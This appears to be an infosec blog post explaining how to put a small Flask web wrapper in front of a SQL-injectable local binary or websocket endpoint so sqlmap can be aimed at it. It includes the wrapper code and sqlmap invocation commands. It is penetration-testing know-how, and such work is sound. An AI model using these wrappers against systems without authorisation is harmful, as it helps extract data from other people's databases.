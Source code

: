 ```yaml
---
layout: post
title: SQLMap ALL the Things!
date: 2023-06-05 14:34 -0400
categories: [Python]
tags: [hacking, sqlmap, sql injection, python, boilerplate]
---
```


SQLMap is a tremendous tool that we all should know in the infosec field. For those that don't, it is a Swiss Army Knife of SQL Injections. The basic idea is that generally speaking, SQL Injections can be time consuming, and if you need to deal with a blind SQL injection attack and rely on things like `SLEEP` commands, you'll need to script it. Thankfully SQLMap was created to handle exactly this, and it effectively works out so that if you find a SQL Injection point somewhere, you simply point SQLMap at it and it should suss out what's necessary to extract as much data as our user is entitled to viewing. 

SQLMap is, however, tuned to web apps. If there is a SQL Injection point, I think it's safe to say that a vast majority of the time it will be backended to some sort of web app. Meaning HTTP/HTTPS. But what about anything else? What about if you are pentesting a local app that isn't capable of responding via a web service? Or some sort of web-adjacent service like websockets? That certainly happens, and if there is a SQL Injection point there, how do you point SQLMap to it to begin its attack?

My solution: make a web app that translates requests to executing the vulnerable app.

This is my boilerplate code:

```python
#!/usr/bin/env python

from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=["POST"])
def sql_attack():
    data = request.form['id']

    # do stuff here with the `data` variable

    return result

if __name__ == "__main__":
    app.run(host="127.0.0.1")
```

## SQLMap against a Binary
The above is the wrapper code around whatever command that you need to execute that has an injection point. For example, let's say there is a binary named `/usr/bin/vuln` that gets executed like so:

```sh
/usr/bin/vuln username=agr0 password=letmein query='{"state": "xyz"}'
```

And it should return something like:

```json
{
    "resultState": "'xyz' is not found in our database!"
}
```

We know from testing that the `query` attribute is vulnerable, by including the value of `{"state": "xyz'"}` (note the additional single quote). It communicates through to the backend using some sort of proprietary communication protocol that we can't easily sniff using wireshark, or worse -- we don't have access to sniff that network!

I can use the above boilerplate code to wrap the invocation of the binary around an HTTP POST request:

{% raw %}
```python
#!/usr/bin/env python

from flask import Flask, request
import subprocess

app = Flask(__name__)

@app.route('/', methods=["POST"])
def sql_attack():
    data = request.form['id']

    # do stuff here with the `data` variable
    proc = subprocess.run(["/usr/bin/vuln", "username=agr0", "password=letmein",
                           f"query='{{\"state\": \"{data}\"}}'"], stdout=subprocess.PIPE,
                           universal_newlines=True)
    return proc.stdout

if __name__ == "__main__":
    app.run(host="127.0.0.1")
```
{% endraw %}
Note the use of the double curly-braces, this is to escape the literal curly braces and add the python format-string variable.

Now if I execute this code, I can test it with:

```sh
curl -XPOST -d "id=xyz" http://localhost:5000
```

This should return the exact same output as the above. Now we have it wrapped in the HTTP protocol so we can point sqlmap to it!

```sh
sqlmap -u http://localhost:5000 --data 'id=xyz' -p id
```

Now sqlmap should work as normal against the binary!

## SQLMap against Websockets

Using the same idea as above, I will tailor my attack towards a websocket now that we have tested for a potential SQL Injection Vulnerability. For this, I will use python's `websocket` libary to make the connection.

Let's say for example that an endpoint at `/cx` is vulnerable. The payload it expects is a json object, specifically `{"connectionID": "ABCD123"}`, and it is SQL Injectable via escaping quotes, where the connection dumps an error message and severs the websocket connection.

Using the above boilerplate, I'll tailor it a little bit to make a websocket connection. Python really can do everything.

```python
#!/usr/bin/env python3

from websocket import create_connection
import json
from flask import Flask, request

ws_host = "ws://10.20.30.40:5789"

app = Flask(__name__)

@app.route('/', methods=["POST"])
def webs_attack():
    data = request.form['id']
    ws = create_connection(ws_host + '/cx')
    d = {"connectionID": data}
    ws.send(json.dumps(d))
    print("Sending:", json.dumps(d))
    result = ws.recv()
    print("Received:", result)
    ws.close()
    return result

if __name__ == "__main__":
    app.run(host="127.0.0.1")
```

Now for every connection made to `http://localhost:5000/` via a POST request and sending `id=xyz` it will set up the websocket connection, build the JSON payload, send it, and cleanly sever the websocket. By doing this, I can now point SQLMap to this code and it will forward the request to the endpoint on the websocket and return the result.

## Conclusion
Hopefully you can see the versatility of using Flask to serve as a quick-and-dirty web frontend which can potentially expand upon the attack surface of a lot of tools. SQLMap is the first thing that comes to mind, but I wonder what else can be used like this?